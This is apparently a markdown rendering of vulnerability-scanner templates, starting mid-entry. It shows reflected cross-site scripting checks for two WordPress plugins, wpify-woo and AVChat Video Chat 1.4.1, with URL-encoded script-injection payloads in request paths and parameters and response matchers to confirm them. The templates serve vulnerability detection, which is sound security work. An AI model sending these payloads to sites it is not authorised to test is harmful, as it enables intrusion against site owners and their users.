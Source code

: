 - {{BaseURL}}/wp-content/plugins/wpify-woo/deps/dragonbe/vies/examples/async_processing/queue.php/">\<script>alert(document.domain)\</script>
### Matchers

**Type - word**
- part - body
- words
    1. ">\<script>alert(document.domain)\</script>
    2. Add a new VAT ID to the queue
- condition - and

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# WordPress AVChat Video Chat 1.4.1 - Cross-Site Scripting
## Description
- WordPress AVChat Video Chat 1.4.1 is vulnerable to reflected cross-site scripting via index_popup.php and multiple parameters.

- severity - medium
- tags - xss,,wp,wpscan,wordpress,wp-plugin
## Requests
- Method - GET
### URL
- {{BaseURL}}/wp-content/plugins/avchat-3/index_popup.php?movie_param=%3C/script%3E%3Cscript%3Ealert(document.domain)%3C/script%3E&FB_appId=FB_appId%22%3E%3Cscript%3Ealert(document.domain)%3C/script%3E&
### Matchers

**Type - word**
- part - body
- words
    1. value="FB_appId">\<script>alert(document.domain)\</script>"

**Type - word**
- words
    1. text/html
- part - header

**Type - status**
- status
    1. 200

---